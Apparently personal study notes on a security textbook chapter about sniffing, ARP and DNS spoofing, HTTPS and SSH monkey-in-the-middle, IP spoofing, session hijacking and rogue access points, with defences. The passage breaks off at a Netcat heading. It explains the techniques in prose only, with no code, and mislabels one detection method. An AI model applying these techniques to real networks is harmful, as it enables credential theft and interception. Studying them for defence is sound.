



# Notes
As we wind through the scenarios in this chapter, it is important to remember that these network-based attacks will work no matter if our networks are made up of wires, switches, and hubs or if they consist of radio waves and wireless acess points. 

# Sniffing
A sniffer is a program that gathers traffic from the local network, and is useful both for attackers looking to swipe data as well as network administrators trying to troubleshoot problems. 
- Using a sniffer, an attacker can read data passing by a given machine in real time, or store the data in a file for access at a later time. 
- Because a sniffer gathers packets ar the Data Link Layer, it could potentially grab all data passing on the LAN of the machine running the sniffer program. 

A sniffer can grab anything sent across the LAN: user IDs and passwords for telnet sessions, DNS queries and responses, sensitive e-mail messages, FTP passwords, files accessed using the Network File System or Windows shares, and more.
- As long as data is not encrypted and passes by the network interface of the machine running the tool, a sniffer can pick it up. 
- This is because attackers most often use sniffers to gather all traffic from the LAN, putting the interface into so-called promiscuous mode. This mode involves gathering all data, without regard to its destination MAC address. Alternatively, when gathering data only going to or from its host system, a sniffer leaves the interface in its normal nonpromiscuous state. 

An attacker must have an account on a machine from which to run the sniffer. The attacker might have been given the account because he or she is an insider, such as an employee, supplier, or contractor requiring access on the machine. 
- Alternatively, the attacker may have used a method from the previous chapter to reach the system.
- It is important to note that in the vast majority of operating systems, the attacker needs an account with admin or root privileges to run a sniffer because it is reading packets directly from the network devices on a system. 

Attacks often use a sniffer to gather user IDs and passwords from clear-text protocols on the LAN and store them in a local file. At some later data, the attacker logs back into the system to recover the passwords. 

Sniffers are particularly useful in what is known as an island-hopping attack. As shown in the figure below, island hopping attacks involve an attacker taking over a single machine through some exploit. After gaining access to an account through this exploit, the attacker installs a sniffer on this first victim machine. Then, using the sniffer on the first victim, the attacker observes users and administrators logging on to other systems on the same LAN segment or other segments of the network. The sniffer gathers these user IDs and passwords, allowing the attacker to take over more machines. These sniffers allow attackers to hop from system to system taking over more machines. 


An enormous number of sniffing tools are widely available today. The following are some of the most interesting, widely used, and highly functional sniffers:
- windump: a freeware port of tcpdump for Windows
- snort: a freeware sniffer and network-based IDS, available at www.snort.com
- ethereal: freeware for UNIX/Linux and Windows, with a nice user interface and the ability to decode a plethora of protocols, available at www.ethereal.com
- Sniffit: Freeware running on a variety of UNIX and Linux flavors, and widely used in the attacker community
- Dsniff: A free suite of tools built around around a sniffer running on variations of UNIX and Linux, available at www.monkey.org/~dugsong/dsniff

Sniffers can be used on a variety of interface types (such as wireless or Token Ring interfaces). However, given the huge popularity of Ethernet as a LAN technology, the vast majority of sniffer tools target Ethernet.

As we discussed in chapter 2, ethernet-based networks can be implemented using both switches and hubs. 

## Sniffing Through a Hub: Passive Sniffing
Transmitting data across a hub-based LAN is like shouting into a crowded room: Everyone in the room can hear what you shout.
- In a similar manner, a hub implements a broadcast medium shared by all systems on the LAN.
- Any data sent across the LAN is shared with every machine on the LAN
- The figure below illustrates this relationship, if an attacker runs a sniffer on one system, the sniffer can gather data sent to and from any other system on the LAN


The majority of sniffer tools are well suited to sniff data in a hub environment. When used in this way these tools are called **passive sniffers** because they passively wait for data to be sent to them, and then silently gather that data from the LAN. In particular, three of the most useful tools in this realm are Snort, Sniffit, and Ethereal.

### Snort
Snort actually started as a very flexible sniffer program. 
- It works as a very powerful signature-matching and preprocessing IDS
- It works cross platform (Linux and Windows)
- Snort can be employed by an attacker to grab sensitive information from the network, however most bad guys don't use it because it offers far more capabilities than the attackers need. 

### Sniffit
Sniffit has been used in the computer underground for many years in a variety of attacks.
- It can be configured to gather data promiscuously and store it in a local file. 
- It also supports flexibile filtering capabilities so the attackers can zero in on particular hosts or even specific protocols to sniff, like telnet or FTP, based on port numbers, used by the protocol. 
- Sniffit's most interesting feature is its ability to handle the interactive sniffing sessions in real time.

Sniffit's interactive mode is incredibly useful for monitoring session-oriented applications, like telnet, rlogin, and FTP sessions. As shown in the figure below, the attacker is then presented with a slick interface showing all TCP sessions going across the network.


### Ethereal
Ethereal can decode several hundred different protocols used all across the networking spectrum and can break them down to the various fields within the packet to explain what every bit and byte is used for.

Additionally, Ethereal provides a handy "Follow TCP Stream" function that allows you to select a single packet and then see the entire contents of the TCP stream from which it came.

Ethereal has a lot of buffer overflow vulnerabilities


### This book is too old to mention wireshark, but that would work well here too. 

## "Hey Don't I Know You?" Passive OS Identification and Vulnerability Identification

In Chapter 6, Phase 2: Scanning: we discussed many different methods to map a network and look for vulnerable machines. Although all those methods work, they all run some risk of detection, because they all involve sending packets to the target network and receiving a response. 

What if you could perform network recon in an extremly stealthy fashion, mapping a network or even checking for vulnerabilities without ever sending a single packet? Well you can, to an extent, using fancied-up sniffers. Although you won't be able to get the depth of information you could get from say, an Nmap or Nessus scan, you might be suprised at the info that can be gathered in an entirely passive mode, as illustrated in the figure below


Every operating system has its own peculiarities, from the number of buttons on a mouse to the way it displays an error message. Those peculiarities extend to the behavior of the operating system's network software when making a connection. 
- If you were given samples of various packets sent from different operating systems in the course of making standard connections, it is possible to spot enough differences to be able to positiviely identify the source OS based solely on the types of packets they send.

This is the claim to fame for the program P0f2. 
- Available for Linux and Windows 
- Provides users with the ability to identify the OS of a remote machine passively, based on the "fingerprint" of the operating system's network stack
- In addition to identifying the OS, P0f2 cna identify firewall, NAT or load-balancer usage, connection type, and even system uptime, all by simply passively sniffing packets. 

In effect, P0f2 is really just a sniffer that grabs packets, and feeds them to some intelligence that can identify what operating system sent the packets based on their contents, especially the fields in the packet header, such as the TTL and IP ID in the IP header.
- Many systems send out packets with an initial TTL that is near a given power of 2, so by rounding to the nearest power of 2, we might be able to determine which operating system sent it.

Hand in hand with the concept of passive OS identification is the idea behind passive vulnerability scanning. In chapter 6 we discussed vulnerability scanning and introduced Nessus vulnerability scanner. 
- Nessus, while a good tool, does entail a certain risk of detection based on the packets it launches across the network

Passie vulnerability scanning iscurrently cutting-edge technology, with Tenable Network's Security commerical Nevo tool being the major tool in this genre currently available. 

Passive vulnerability scanners work by watching not only for the so-called banner information (information that applications generate that identifies the type and version of the software), but also by using special rules to identify specific "behavioral" clues that might indicate that an application could exhibit vulnerabilitie. 

### Active Sniffing: Sniffing Through a Switch and Other Cool Goodies
Unlike hubs, switched Ethernet does not broadcast all information to all machines on the LAN. Instead, the switch is more intelligent than the hub. It looks at the MAC address associated with each frame passing through it, sending data only to the required connection on the switch. 
- Therefore as shown in the figure below, a LAN built on switched Ethernet is not really a broadcast medium. A switch limits the data that a passive sniffer can gather.


If an attacker activates Snort, Sniffit, Ethereal, tcpdump, or any other passive sniffer on s witched LAN, the sniffer will only be able to see data going to and from one machine- the system with the sniffer installed. 
- All of the other interesting information flowing on the LAN will be unavailable to the sniffer, because the switch won't send it to the attacker's machine. 

To overcome this difficulty of sniffing a switched LAN, attackers have created a variety of tools that actively inject traffic into the LAN to support sniffing in a switched environment. 

## Dsniff: A Sniffing Cornucopia
Dsniff is a collection of several tools used to capture information from a LAN in a huge number of flexible ways. Dsniff runs on OpenBSD, Linux,Solaris, AIX, and HP-UX. The centerpiece of the Dsniff suite is the sniffer program itself, called appropriately enough, Dsniff. 

### Parsing Packets for a Bunch of Applications
The big advantage of the Dsniff centerpiece sniffer is the amazing number of protocols that it can interpret. 

Dsniff really shines at decoding a large number of application-level protocols, sucking out user IDs and passwords from clear-text protocols including FTP, telnet, SMTP, HTTP, POP, poppass, NNTP, IMAP, SNMP, LDAP, Rlogin, RIP, OSPF, NFS, YP/NIS, SOCKS, X11, CVS, IRC, AIM, ICQ, Napster, PostgreSQL, Metting Maker, Critix ICA, Oracle SQL, Sybase SQL, and Microsoft SQL auth info. 
- The ability to detect and interpret properly and automatically this enormous list of application level protocols is highly useful to both attackers and security professionals.

Beyond its abilities to decode all of these application-level formats, the Dsniff suite's major differentiating feature is its ability to actively manipulate traffic.
- All of the other sniffers we've discussed so far (Snort, Sniffit, Ethereal, tcp-dump) passively monitor ttraffic on the network. 

### Foiling Switches with Floods
Dsniff offers two methods for sniffing data from a switched LAN
1. The first technique is based on MAC flooding using a Dsniff program called Macof. 
	- Dsniff's Macof program works by sending out a flood of traffic with random spoofed source MAC addresses on the LAN. Eventually the switch's memory associated with the CAM table is exhausted, filled with bogus MAC addresses. This causes some switches to forward data onto all other physical ports of the switch, somewhat like a hub. 

### Foiling Switches with Spoofed ARP Messages
Some switches are not subject to this MAC flooding attack because they stop storing new MAC addresses when the remaining capacity of their memory reaches a given limit. 
- With those switches, once the memory is filled, no other MAC addresses can be admitted to the LAN until some existing MAC addresses in the CAM table time out, a period that depends on the switch  but typically involves several minutes. 
- For switches that are immune to Mac flooding, Dsniff comes to the rescue (for attackers) by including another method for sniffing through a switch. 

Consider the switch-based LAN shown in the figure below. Under normal circumstances, traffic destined for the outside world is sent from a client machine, through the switch, to the default router for the LAN. The default router is the connection to the outside world, which could consist of other networks or the Internet itself. 
- Note in the figure, however, that an attacker has taken over a machine connected to the LAN. This attacker cannot monitor the victim's traffic using passive sniffing techniques, because the switch sends the traffic only to the physical switch port connected to the default router for the LAN. 

To sniff in a switched environment where MAC flooding doesn't work, Dsniff includes a tool called arpspoof. As its name implies, arpspoof allows an attacker to manipulate ARP traffic on the LAN. 
- Review: Machines use ARP to determine a destination system's MAC address based on the IP address, so traffic can be delivered across a LAN. 
- Essentially, ARP is used to map layer 3 (IP) addresses to Layer 2 (MAC) addresses (unlike a CAM table, which lives in a switch and maps Layer 2 to Layer 1).
- Arpspoof lets an attacker mess up these ARP mappings in a way that can enable the attacker to intercept data in a switched environment 

The figure below shows a step-by-step analysis of arpspoof in action. 


If IP forwarding were not enabled on the attacker's machine, the victim machine would not be able to send any traffic to the outside world, resulting in an inadvertent DoS attack. It is also important to note that this arpspoof technique doesn't target the switch itself. Instead, arpspoof manipulates the mapping of IP address to MAC address in the victim machine's ARP cache to allow sniffing in a switched environment. 

### Foiling Switches with Port Stealing
DSniff isn't the only game in town when it comes to clever tactics for getting around the difficulties that switches represent to an attacker who wants to sniff traffic from a LAN. 
- Ettercap is a powerful, flexible tool that offers the same active sniffing techniques pioneered by DSniff's arpspoof tool and manages to add a few techniques of its own. 

One method for defending against the ARP spoofing techniques used by DSniff is to hard-code specific MAC addresses in the ARP tables of potential target machines on a high-value LAN. 
- That way, these systems will send data to only specific other system MAC addresses, foiling ARP cache poisoning. 
- Ettercap offers a technique of active sniffing with the rather evocative name "port stealing."

To understand how port stealing works, you need to recall that a switch builds an internal representation of which MAC addresses are attached to each of its physical ports in its CAM table and uses that representation to switch frames on the LAN. 
- To port steal, Ettercap begins by flooding the LAN with bogus Ethernet frames that have the attacker's MAC address listed as the destination (which will keep the switch from forwarding to any other port) and with the packet's source set to the MAC address of the victim machine as illustrated in step one of the figure below
- In step 2, these packets cause the switch to associate the MAC address of the gateway machine with the physical port where the attacker's machine resides. The ARP cache on the end system remains intact. 
- Later in step 3, when any system on the LAN transmits packets to the network's default gateway, the switch examines the destination MAC address found on each of the packets and forwards them to the physical port where the switch's internal "map" says the router is located. The end result is that these packets are dumped out onto the wire where the attacker is located. The attacker can now sniff these packets using any old sniffer. 


### Sniffing and Spoofign DNS
In addition t o ARP spoofing, Dsniff also supports redirecting traffic based on sending false DNS information. 
- Dsniff includes a program called dnsspoof that lets an attacker send a false DNS response to a victim, which will make victim's access the attacker's machine when they intended to access another (valid) machine. 
- Suppose ```www.skoudisstuff.com``` is an online bank. If a user wants to surf to ```www.skoudisstuff.com```, the attacker can trick the client into connecting to the attacker's Web server, where the attacker could display a fake bank login screen, gathering the victim's credentials.
- The figure below shows how Dsniff's DNS spoofing works.


In Step 1, the attacker fires up the dnsspoof program from the Dsniff suite. The program sniffs the LAN, looking for DNS queries about specific hostnames, such as ```www.skoudisstuff.com```
- If the LAN is constructed with a hub, the attackers grab DNS queries right off of the LAN using passive sniffing. 
- If the LAN is switched, the arpspoof program can be used to capture them from the target as we saw in the previous section. 

In Step 2, the victim tries to resolve the name ```www.skoudisstuff.com``` using DNS, perhaps by trying to surf to the bank's Web site.

In Step 3, the attacker sniffs the DNS query from the line, and immediately sends a fake DNS response in step 4. 
- This response will be a lie claiming that ```www.skoudisstuff.com``` should resolve to 10.1.1.56 (which is the IP address of a machine belonging to the attacker in the outside world), instead of 10.22.12.41 (which is the real bank's Web site)
- The victim's machine then caches the incorrect DNA entry
- The real answer to the DNS query arrives but will be ignored since the system already received the fake one

In step 5, the victim's browser makes a connection with the system at 10.1.1.56, which it thinks is www.skoudisstuff.com, but will actually be the attacker's website.

For this attack to work, the attacker doesn't even have to be on the same LAN as the victim machine. Instead, the attacker can be located anywhere between the victim and the victim's DNS server. The attacker must be somewhere on this path, such as the victim's LAN, the DNS server's LAN, or any LAN in between where the traffic is carried, so that dnsspoof can see the DNS request and formulate its evil response. 

So as we've seen, Dsniff lets an attacker inject traffic into a network to remap critical information, such as MAC to IP address mappings, or domain names to IP address mappings. In that way, Dsniff performs traffic manipulation to redirect data and implement an active sniffer. 

### Sniffing HTTPS and SSH
The problem exploited by Dsniff lies in the trust of the certificates and public keys.
- For SSL, if a Web server sends a browser a certificate that is signed by a CA that the browser does not recognize, the browser prompts the user asking whether to accept this untrusted certificate. 
- SSH the user will be warned that the server's public key has changed, but will still be permitted to establish a connection. 

Dsniff exploits this problem using a monkey-in-the middle attack. The names of the tools for attacking HTTPS and SSH are webmitm and sshmitm where mitm stands for (monkey-in-the-middle attack)
- In these attacks, the attacker positions themselves between two systems on the network and actively participate in the connection to gather data or otherwise monkey with things. A general attack is shown below


Let's look at a concrete example of how the Dsniff tool webmitm works against HTTPS connections to set up a mitm attack, as shown in the figure below. 


In step 1, the attack first runs the dnsspoof program, configured to send false DNS infomration so that a DNS query for ```www.skoudisstuff.com``` will resolve to the attacker's IP address (10.1.2.3 in our example). Additionally, the attacker activates the webmitm program, which transparently proxies all HTTP and HTTPs traffic it receives 

In step 2, the dnsspoof program detects a DNS request for ```wwww.skoudisstuff.com``` and sends a DNS reply directing the client to the attacker's machine (10.1.2.3).

In step 3, the victim's browser starts to establish an SSL connection. 
- All messages for establishing the SSL connection are sent to the webmitm program on the attacker's machine.

In step 4, webmitm then acts as an SSL proxy, establishing two separate SSL connections: one from the victim to the attacker's machine, and the other from the attacker's system to the actual ```www.skoudisstuff.com``` Web server. 
- As far as the web server is concerned, it has established a valid SSL connection with the client, not knowing that it is actually communicating with the attacker's machine in the middle. 

In step 3 and 4, when establishing the SSL session between the victim machine and the attacker's machine, webmitm sends the victim machine a bogus certificate that the attacker has created. 
- Webmitm must send the attacker's certificate to the victim so it can establish its own SSL connection with the victim to decrypt the data passed from the browser. 
- The victim-to-attacker SSL session will use a session key exchanged with the attacker's own SSL certificate. 
- Dsniff has built-in capabilities for generating and signing a certificate to use in these attacks. 

When the victim's browser is redirected and establishes an SSL session with the attacker's machine, it will notice that the certificate is not signed by a trusted Certificate Authority (because the certificate was generated and signed by the attacker).
- Furthermore, if the attacker is not careful, the browser will notice that the DNS name in the certificate does not match the name of the Web site that the user is trying to access. 

What does the victim see during Step 4?, when a bogus certificate is sent to her machine during the establishment of the SSL connection? It depends on the browser that she's using. Mozilla Firefox displays the rather confusing message shown below. 


Webmitm displays the entire contents of the SSL session on the attacker's screen, as shown in the figure in the figure below. Not e that the output contains all HTTP information sent across the SSL connection. The user ID and password sent across the session are of particular interest to most attackers.


So, we have seen how Dsniff can be used to sniff SSL sessions by conducting a monkey-in-the-middle attack. In a similar fashion, an attacker can use Dsniff's sshmitm tool to view data sent across an SSH session. Just like Web browsers, the SSH client will complain that it doesn't recognize the public key inserted by the attacker. Different SSH clients have different warning messages, but the OpenSSH client displays the following warning: 

****

Both Dsniff and Ettercap support attacks against SSH protocol version 1 only. Although neither tool currently supports SSH protocol version 2, someone likely will implement similar attacks against that protocol. SSH protocol version 2 is a far more complex protocol, however, supporting many more crypto algorithms and options. 
- Thus, a tool implementing such attacks against the later protocol would be more difficult, but not completely impossible, to create.

### Additional Dsniff Odds and Ends
In addition to its amazing sniffing, redirection, and interception tricks, Dsniff also includes a variety of other tools that can help capture and manipulate traffic on a LAN. 


## Sniffing Defenses
Now that we've seen how an attacker can grab all kinds of useful information from your network using sniffing tools, how can you defend against these attacks? 
1. First, whenever possible, encrypt data that gets transmitted across the network. 
2. Use secure protocols like HTTPS for web traffic, SSH for encrypted login sessions and file transfer, Secure Multipurpose Internet Mail Extensions (S/MIME)

Get rid of hubs, because they make sniffing too easy. 

Next, for networks containing very sensitive systems and data, enable port-level security on your switches by configuring each switch port with a specific MAC address. 

Furthermore, for extremely sensitive networks like Internet DMZs, use static ARP tables on the end machines, hard-coding the MAC address to IP address mapping for all systems on the LAN. 

If the attacker manages to squeeze by the preventative measures we just described, there are various tools you can use to detect a sniffer installed on the machine. As we described earlier, if an attacker is grabbing all packets on a LAN, it puts the network interface into promiscuous mode, a very common scenario for sniff usage. 

You can detect promiscuous mode in two ways:
1. across the network: Run ```ifconfig``` on a local system and if you see the word PROMISC in output, the network is in promiscuous mode 
2. locally: Use PromiscDetect 


# IP Address Spoofing 
Like sniffing, another fundamental component of numerous attacks involves changing or disguising the source IP address of a system, a technique commonly referred to as IP address spoofing. Spoofing is helpful for attackers who don't want to have their actions traced back, because the packets will appear to be coming from the system whose address the attacker is using.
- Additionally, IP address spoofing helps attackers undermine various applications, particularly those that dangerously rely on only IP addresses for authentication or filtering

We've already encountered a couple of examples of IP address spoofing in earlier chapters. First, in Chapter 6, during our review of Nmap, we addressed this port-scanning tool's ability to use decoys and conduct idle scans. For both types of scans, Nmap supports spoofing by sending packets that appear to come from another system's source address. 


## IP Address Spoofing Flavor 1: Simple Spoofing--Simply Changing the IP Address
This technique is by far the simplest way of spoofing another system's IP address: Just change your IP address to the other system's address.
- Attackers can reconfigure their systems to have a different IP address quite trivially.
- Using Linux ```ifconfig``` command, or the Windows network control panel, attackers can pick any other IP address they want. 

Alternatively, rather than resetting the IP address for the whole system, the attacker could even use a single tool that generates packets with the desired IP address. 
- Nmap and Dsniff do this by creating specific packets appearing to come from another system without altering the network configuration of the source machine. 

Finally, the attacker could employ any one of a number of custom packet crafting tools to create packets with arbitrary header fields of the attacker's choosing, including source IP addresses. Some of the best packet crafting tools available today include:
- Hping2, for Linux
- Nemesis, for Linux and Windows
- NetDude, for Linux

The examples in which simple spoofing works inovle sending traffic to the target, but not receiving any responses. Because of the way routing works, all responses to spoofed packets will be sent to the real system that the attacker is pretending to be. 
- Therefore, generating packets with a spoofed IP address will not let an attacker have interactive sessions with the target, because all of the response packets will be sent to another system. 

Keep in mind that TCP uses a 3-way handshake and this instinctively prevents spoofing because the lack of a response. What will happen is that the spoofed address will send a RESET since it never received the inital SYN packet. See the figure below


Although simple spoofing is quite limited for interactive connections, it should be noted that if both Eve and Bob are on the same LAN, simple spoofing can work in interactive mode. 

## IP Address Spoofing Flavor 2: Predicting TCP Sequence Numbers to Attack UNIX r-Commands
If Eve and Bob are not on the same LAN, simple address spoofing is useless in establishing a TCP connection and interacting with the target. Our next spoofing technique gets around these difficulties by targeting weaknesses in predictable TCP sequence numbers, and using them to attack UNIX trust relationships, especially the UNIX r-commands. 

r-commands are considered outdated and insecure so I am skipping this section. 


## IP Address Spoofing Flavor 3: Spoofing With Source Routing
A far easier method for IP address spoofing is based on source routing. This technique lets the attacker get responses in interactive sessions, and even avoid predicting TCP sequence numbers or launching a DoS attack. 

As discussed in Chapter 2, source routing allows the source machine sending a packet to specify the path it will take on the network. An potion called loose source routing allows the attacker to specify just some of the hops that must be taken as the packet traverses the network. 
- These hops are included in the packet's IP header, with the source route consisting of mileposts of routers the attacker wants to make sure the packet traverses. 

If the network elements between the attacker and the victim system support source routing, spoofing can be quite trivial, as shown in the figure below. Eve generates packets with a fake source route. The packets claim to come from Alice, their apparent source IP address. The source route also includes Eve's address, making Eve look like a router between Alice and Bob that handled the packets. Finally, the route includes the destination, Bob. Eve generates spoofed packets that include this source route and injects them onto the network. 


Any routers between Eve and Bob will read the source route and deliver the packets to Bob. Bob will take action on the packets (establishing a TCP connection, or any other interaction) and send the response. 
- All responses to source-routed packets inverse the route of the originating packet. Therefore, Bob will generate packets with a source route starting at Bob, going through Eve, and ending at Alice. 
- When the packets are sent back, Eve will intercept and not forward them to any other systems. 

This source routing attack seldom works across the internet, as most organizations block source-routed packets at their Internet gateway. 
- However, a large number of organizations still allow source-routed packets to roam free on their internal networks. 
- Therefore, an insider can launch some very interesting spoofing attacks using this technique. 

## IP Spoofing Defenses
There are several good practices to follow in avoiding the IP address spoofing attacks previously discussed. 

First, you should make sure that the initial sequence numbers generated by your TCP stacks are difficult to predict. To do this, apply the latest set of security patches from your operating system vendor. 

Furthermore, for Linux and Unix systems in particular, avoid using the very weak r-commands altogether. Instead, use secure replacements for r-commands like SSH or even an encrypting VPN for secure acess. 

Don't use IP addresses for authentication methods since they can be easily spoofed. 

Also, you should imploy so-called antispoof packet filters at your border routers and firewalls connecting your organization to the Internet and business partners. An antispoof filter is an extremely simple idea, as pictured below. 


Additionally, do not allow source-routed packets through network gateways. 

Finally, be careful with trust relationships throughout your environment. 
- Avoid extending Unix and Windows trust relationships to systems across an unprotected network. 

# Session Hijacking 
Now we'll explore attacks based on a marriage of sniffing and spoofing, known as session hijacking attacks. 
- Session hijacking tools can be particularly nasty. 

Consider the hijacking example highlighted in the figure below. Alice has an established telnet session across the network to Bob. Eve sits on a segment in the network where traffic is passing from Alice to Bob.
- With this strategic location, Eve can see the session traffic using sniffing techniques. Eve not only sees all packets going from Alice to Bob, but also can carefully monitor the TCP sequence numbers of these packets while observing the session. 

At some point in the communication between Alice and Bob, Eve will decide to hijack the connection. Eve starts injecting spoofed traffic with a source IP address of Alice into the network, using the proper TCP sequence numbers on all packets. 
- If the hijack is successful, Bob will obey the commands sent by Eve, thinking they came from Alice.
- Eve has effectively stolen the session from Alice. Because the session is stolen as it is transmitted across the network, this technique is called network-based hijacking. 


## Another Way: Host-Based Session Hijacking 
Although we have focused on hijacking a session across the network, another simpler technique can be used to steal a session. 
- If the attacker has super-user-level access on the source destination machine, the attacker can employ a host-based session hijacking tool to grab the session on the local machine itself, without intercepting any data from the network. 

On a UNIX system, for an attacker with root on Alice or Bob, these tools let an attacker interact with the local terminal devices (the ```ttys``` of the UNIX machine) that are used in telent and rlogin sessions. 
- A tty is just software tool used by various command-line programs to get information from a user through the keyboard and display information from a user through the keyboard and display information right from the victim's ```tty``` and even inject keystrokes into the ```tty```, thereby gaining complete control over the session.

Network based session hijacking tools are useful if the attacker doesn't have an account on the Alice or Bob machines. However, if the attacker has already compromised the Alice or Bob machines to gain root access, the easiest way to grab a session is to use a host-based session hijacker. 

There are a large number of network-based and host-based session-hijacking tools available on the internet today, including the following:

- Hunt, written by Kra
- Dsniff's sshmitm tool, allows an attacker who has setup a monkey in the middle attack against an SSH session to sniff the SSH traffic. When sniffing the session, the tool also lets the attacker type keystrokes into the SSH connection, by using the -I (for interactive) flag. 
- Ettercap, also described earlier in this chapter, has the ability to inject characters into an active connection. 
- Juggernaut, a network-based hijacking tool 
- IP Watcher, a commerical network-based session hijacking tool 
- TTYWatcher, a freeware host-based session hijacking tool
- TTYSnoop, a freeware host-based session hijacking tool

One limitation of many network-based session hijacking tools deals with how TCP sequence numbers are handled. Normally, when a system receives a packet with a TCP sequence number that is out of order, it resends its last ACK packet, making the assumption that the ACK was lost in transmission last time. This retransmission of the last ACK packet is supposed to help the systems resynchronize their sequence numbers. But what happens if when an attacker injects traffic into a TCP connection?
- In our example, as Eve injects packets into the network, the sequence numbers of packets going back and forth from Eve to Bob will increase. As traffic gets routed back to Alice, she will see these seuqnece numbers increasing even though she hasn't sent any packets. 
- In an effort to try and resynchronize the connection, Alice will continue to resend ACK messages to Bob again and again for a second or two. Bob responds to each of these ACKs with his own ACK, trying to convince Alice that he received the later packets she sent. These back-and-forth ACK arguments soon consume a good deal of bandwidth in what is known as an ACK storm, shown below


During an ACK storm, performance starts to suffer as Alice and Bob thrash over the sequence number issue. Typically, Eve will be able to get one or two commands executed on Bob before the ACK storm causes the connection to be dropeed as Alice and Bob give up on the hopelessly out-of-synch connection.
- Still, getting one or two commands executed on a target machine might be all that Eve needs. 
- ACK storms only occur on network-based session hijacking tools

How can Eve prevent an ACK storm? We've already seen one technique for getting rid of pesky packets from Alice--DoS. Eve could flood Alice or otherwise take Alice offline to prevent the ACK storm. Although this technique is effective, there are better ways to prevent an ACK storm, as implemented in Ettercap one of the best tools in the realm of network-based session hijacking. 

## Session Hijacking with Ettercap
Like most network-based session hijacking tools, Ettercap, which runs on Linux, Mac OS X, and Windows, allows an attacker to view a bunch of sessions going across the network, and select a particular one to hijack. 
- After selecting a connection, Ettercap allows the attacker to inject characters and commands into the session stream, but Ettercap can pull off a special trick: It avoids ACK storms. 

Ettercap prevents Alice from seeing packets with incorrect sequence numbers. To do this Ettercap uses the same ARP cache poisoning or port stealing setup that it uses for sniffing through a switch. Eve's machine becomes a relay for all traffic going between Alice and Bob illustrated below.


This attack is conducted much like the attack used by arpspoof. Ettercap sends an unsolicited ARP reply to Alice mapping Bob's IP address to the MAC address of Eve's machine. Bob's will also receive a reply that maps Alice's IP address to Eve's MAC address. 
- Unsoliciated ARP requests are referred to as gratuitous ARPs because an ARP response is being sent without there ever being an ARP query. 
- This forces Alice and Bob to use Eve as a relay, they are not able to communicate between each other directly without Eve

Ettercap, running on Eve's machine now selectively bridges this gap, grabbing, altering, and forwarding the packets between Alice and Bob. 
- Whenever packets actually travel between Alice and Bob, Ettercap will "fix" the sequence number on those packets before forwarding them on. Thus preventing an ACK storm. 

Hunt is another session hijacking tool that works similarly to Ettercap. It adds one other interesting feature. It attempts to resynchronize the connection so that Eve can return the session back to Alice after she uses it. 

Note that the techniques used by Ettercap and Hunt work even if Alice, Bob, and Eve are on different LANs, so long as Eve is on a network connection that carries traffice between Alice and Bob. 
- Eve simply needs to do the ARP cache poisoning against the routers on the path between Alice and Bob directly. 
- Eve then sends gratuitous ARP messages to each router redirecting traffic for the other router to Eve, as shown in the figure below. 


## Attacking Wireless Access Points
All network attacks discussed thus far work on both wired and wireless networks. This next attack only works in wireless networks called access point hijacking.

Wireless access points have identifiers known as SSIDs that identifies the network to potential users. 
- Because this information is public, attackers can use this information to configure a computer to act as a duplicate of the real access point. 

Once the fake access point is created, we need a way to ensure that the vicitm will connect to our fake point instead of the real one.

There are several ways for the attacker to accomplish this
1. First and easiest we can overpower the real access point using jamming equipment or having our fake signal emit a stronger signal than the real one
2. Finally, some attackers send a stream of faked wireless "disassociate" management frames, causing the victim to disconnect from the real access point and eventually just find the fake access point.
3. AirJack is a Linux tool that helps attackers perform this sort of action

## Session Hijacking Defneses
Utilize all of the defensive technqiues discussed for spoofing and sniffing attacks. 
- Use encryption tools like SSH and VPNs
- Act as if your network is already compromised
- Encrypted sessions prevent hijacking because the attackers will not have the keys to encrypt or decrypt information

Pay close attention to any warning messages in your SSH clients about changed public keys on the server. If the server's public key inexplicably changes, do not make the connection, but instead investigate why the key changed. 


# NetCat: A General-Purpose Network Tool
Netcat, which is often referred to as the Swiss Army knife of network tools, can be used by attackers and system administrators alike to accomplish a myriad of tasks. 

The idea behind Netcat is simple. It allows a user to move data across a network, while functioning much like the Linux and UNIX cat command. However, instead of just dumping data on the local system like the cat command, Netcar moves arbitrary data over any TCP or UDP port. 

As pictured in the figure below, a single Netcat executable operates in one of two modes chosen by its user: client mode and listen mode. 
- Client Mode: Netcat initiates a connection to any TCP or UDP port on another machine, Netcat takes its data from standard input (file, keystrokes of the user, data piped into it) and sends it across the network
- Listen Mode (evoked with the -l option): Netcat opens any TCP or UDP port on the local system and waits for data to arrive at that port


## Netcat For File Transfer
